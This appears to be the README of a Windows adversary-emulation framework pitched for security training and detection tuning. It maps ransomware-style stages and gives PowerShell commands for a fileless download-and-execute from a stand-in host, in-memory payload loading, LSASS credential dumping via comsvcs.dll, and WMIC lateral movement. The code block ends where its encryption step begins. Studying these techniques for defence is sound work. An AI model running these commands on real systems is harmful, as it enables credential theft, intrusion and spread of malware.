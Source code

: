 - **Fileless Execution** – Payloads remain entirely in memory.
- **LOLBins Abuse** – Executes using native Windows binaries (e.g., `rundll32`, `certutil`, `regsvr32`).
- **Privilege Escalation** – Demonstrates techniques like Print Spooler and HiveNightmare.
- **Lateral Movement** – Mimics propagation through SMB/WinRM.
- **Simulated Impact** – File encryption, recovery prevention, system sabotage.
- **Modular Design** – Adaptable for C2 emulation, detection tuning, or security training.
- **MITRE ATT&CK Mappings** – Fully aligned with industry-standard TTPs.

---

## Attack Chain Overview

1. **Initial Access** – Payload delivery via trusted binaries.
2. **Privilege Escalation** – Local exploitation (e.g., Print Spooler abuse).
3. **Credential Dumping** – LSASS memory scraping via `rundll32`.
4. **Lateral Movement** – Executed through remote scripting and network shares.
5. **Impact** – Simulated encryption and destruction of user files.
6. **Persistence** – Achieved using registry-based PowerShell autorun entries.

---

## Getting Started

### Prerequisites

- Windows 10/11 VM with snapshots enabled
- PowerShell v5+
- Administrator privileges
- (Optional) Internet access for payload retrieval
- Tools: [7-Zip](https://www.7-zip.org/), Sysinternals Suite, [Sigma](https://github.com/SigmaHQ/sigma)

### Execution Guidelines

- No compilation required — the framework uses native PowerShell and system binaries.
- All examples below should be executed **in a sandboxed or test VM only**.

---

![IMG_20250407_055303_902](https://github.com/user-attachments/assets/fc24fe88-0571-452b-8bb0-e7f5ad9da8e1)


## Attack Simulation (PowerShell)

```powershell
# Step 1: Initial access via fileless dropper
IEX(New-Object Net.WebClient).DownloadString("http://malicious.local/dropper.ps1")

# Step 2: In-memory .NET payload loading
$bytes = [System.Convert]::FromBase64String("[BASE64_PAYLOAD]")
[System.Reflection.Assembly]::Load($bytes)

# Step 3: Privilege escalation
Start-Process powershell -Args "-File C:\Temp\elevate.ps1" -Verb RunAs

# Step 4: Credential dumping
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Step 5: Lateral movement
wmic /node:TARGET_PC process call create "powershell.exe -File \\network_share\payload.ps1"

# Step 6: Simulated file encryption
```